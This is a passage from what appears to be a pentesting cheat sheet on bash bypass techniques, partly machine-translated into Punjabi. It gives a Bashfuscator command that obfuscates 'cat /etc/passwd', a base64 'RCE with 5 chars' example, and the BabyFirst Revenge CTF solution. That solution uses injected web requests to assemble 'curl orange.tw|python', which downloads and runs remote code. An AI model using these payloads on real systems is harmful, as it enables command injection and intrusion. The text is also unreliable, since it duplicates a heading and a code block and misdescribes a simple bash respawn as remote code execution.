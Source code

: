 To use Bashfuscator, you need to install it on your system and provide the script you want to obfuscate as input. The tool will then apply the selected obfuscation techniques and generate an obfuscated version of the script as output.

Keep in mind that using Bashfuscator on scripts without proper authorization or for malicious purposes may be illegal and unethical. Always ensure you have the necessary permissions and use the tool responsibly.
```bash
# From https://github.com/Bashfuscator/Bashfuscator
./bashfuscator -c 'cat /etc/passwd'
```
### RCE with 5 chars

### 5 chars-ਨਾਲ RCE

```bash
$ echo $0
bash
$ echo $BASH_VERSION
4.4.19(1)-release
$ echo $0 | base64
YmFzaA==
$ echo YmFzaAo= | base64 -d | bash
bash-4.4$
```

```bash
$ echo $0
bash
$ echo $BASH_VERSION
4.4.19(1)-release
$ echo $0 | base64
YmFzaA==
$ echo YmFzaAo= | base64 -d | bash
bash-4.4$
```

ਇਹ ਉਦਾਹਰਣ ਵਿੱਚ, ਅਸੀਂ ਦੇਖ ਸਕਦੇ ਹਾਂ ਕਿ ਕਿਵੇਂ ਅਸੀਂ ਸਿਰਫ 5 ਅੱਖਰਾਂ ਦੀ ਵਰਤੋਂ ਕਰਕੇ RCE ਪ੍ਰਾਪਤ ਕਰ ਸਕਦੇ ਹਾਂ। ਪਹਿਲੇ ਅਸੀਂ ਆਪਣੇ ਮੌਜੂਦਾ ਬੈਸ਼ ਵਰਜਨ ਦੀ ਜਾਂਚ ਕਰਦੇ ਹਾਂ ਅਤੇ ਫਿਰ ਉਸ ਨੂੰ base64 ਦੀ ਮਦਦ ਨਾਲ ਕੋਡ ਕਰਕੇ ਬਾਸ਼ ਵਿੱਚ ਵਾਪਸ ਕਰਦੇ ਹਾਂ। ਇਸ ਤਰ੍ਹਾਂ, ਅਸੀਂ ਸਿਰਫ 5 ਅੱਖਰਾਂ ਦੀ ਵਰਤੋਂ ਕਰਕੇ ਬਾਸ਼ ਵਿੱਚ ਪਹੁੰਚ ਪ੍ਰਾਪਤ ਕਰ ਰਹੇ ਹਾਂ।
```bash
# From the Organge Tsai BabyFirst Revenge challenge: https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge
#Oragnge Tsai solution
## Step 1: generate `ls -t>g` to file "_" to be able to execute ls ordening names by cration date
http://host/?cmd=>ls\
http://host/?cmd=ls>_
http://host/?cmd=>\ \
http://host/?cmd=>-t\
http://host/?cmd=>\>g
http://host/?cmd=ls>>_

## Step2: generate `curl orange.tw|python` to file "g"
## by creating the necesary filenames and writting that content to file "g" executing the previous generated file
http://host/?cmd=>on
http://host/?cmd=>th\
http://host/?cmd=>py\
http://host/?cmd=>\|\
http://host/?cmd=>tw\
http://host/?cmd=>e.\
http://host/?cmd=>ng\
http://host/?cmd=>ra\
http://host/?cmd=>o\
http://host/?cmd=>\ \
http://host/?cmd=>rl\
```